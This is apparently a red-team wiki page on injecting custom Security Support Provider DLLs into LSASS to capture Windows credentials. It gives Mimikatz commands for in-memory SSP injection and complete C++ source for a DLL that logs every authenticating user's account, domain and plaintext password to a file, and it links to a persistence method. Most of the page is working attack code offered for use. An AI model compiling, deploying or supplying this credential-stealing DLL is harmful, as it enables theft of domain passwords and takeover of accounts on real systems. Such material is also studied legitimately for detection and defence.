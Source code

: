 # Security Support Provider DLLs

## Theory

We may abuse [security support providers (SSPs)](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) to injected into LSASS.exe process custom SSP DLLs. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

## Practice

### In memory Loading

We may directly inject [SSP DLLs](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) into memory. It prevent us from editing registries but using this approach, it will not persist accross reboot like with [this method](../../../../../redteam/persistence/persistence/lsa/security-support-provider-dlls.md).

{% tabs %}
{% tab title="Mimikatz" %}
Mimikatz support in memory SSP DLL injection to the LSASS process.

```powershell
mimikatz# privilege::debug
mimikatz# misc::memssp
```
{% endtab %}

{% tab title="Custom DLL" %}
Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\lsa-pwned.txt`:

{% code title="sspcustom.cpp" %}
```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSPCustom";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSPCustom <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\lsa-pwned.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Loading from disk - Persistence

{% content-ref url="../../../../../redteam/persistence/persistence/lsa/security-support-provider-dlls.md" %}
[security-support-provider-dlls.md](../../../../../redteam/persistence/persistence/lsa/security-support-provider-dlls.md)
{% endcontent-ref %}

## Resources

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package" %}
